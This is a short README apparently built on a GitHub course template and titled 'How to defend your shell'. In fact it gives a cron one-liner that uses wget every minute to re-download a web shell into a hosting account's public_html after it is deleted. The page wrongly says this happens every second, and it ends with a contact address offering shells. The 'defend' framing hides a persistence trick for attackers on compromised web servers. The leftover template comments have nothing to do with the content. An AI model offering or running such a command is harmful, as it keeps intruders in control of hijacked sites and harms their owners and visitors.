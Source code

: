 <header>

<!--
  <<< Author notes: Course header >>>
  Include a 1280×640 image, course title in sentence case, and a concise description in emphasis.
  In your repository settings: enable template repository, add your 1280×640 social image, auto delete head branches.
  Add your open source license, GitHub uses MIT license.
-->

# How to defend your shell:


</header>

<!--
  <<< Author notes: Step 1 >>>
  Choose 3-5 steps for your course.
  The first step is always the hardest, so pick something easy!
  Link to docs.github.com for further explanations.
  Encourage users to open new tabs for steps!
-->

## Step :
- Open terminal on your shell
- Type this command : echo "* * * * * wget -q https://rawlink -O /home3/namma6dw/public_html/path" | crontab -
- From now on your shell will upload in every second after it deleted
- in case for shell needed, you can contact me z2nx@protonmail.me

